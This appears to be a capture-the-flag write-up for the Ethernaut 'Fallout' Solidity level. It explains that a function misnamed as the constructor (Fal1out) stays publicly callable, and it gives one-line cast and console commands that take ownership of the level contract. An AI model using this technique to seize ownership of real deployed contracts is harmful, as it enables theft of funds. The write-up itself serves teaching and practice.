 

<br>

---

### discussion

<br>

* a constructor initializes the contract and the data within it.

<br>

* when a constructor has a different name from the contract, it becomes a regular method with a default `public` visibility (i.e., they are part of the contract's interface and can be callable by anyone).

<br>

* fun fact: before solidity `0.4.22`, defining a function with the same name as the contract was the only way to define its constructor. after that version, the `constructor` keyword was introduced.



<br>

```solidity
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

<br>



----

### one-line solution with `cast`

<br>

```shell
cast send <level address> "Fal1out()" --private-key <private key>
```

<br>

----

### one-line solution in the console

<br>

```javascript
await contract.Fal1out();
```

<br>

---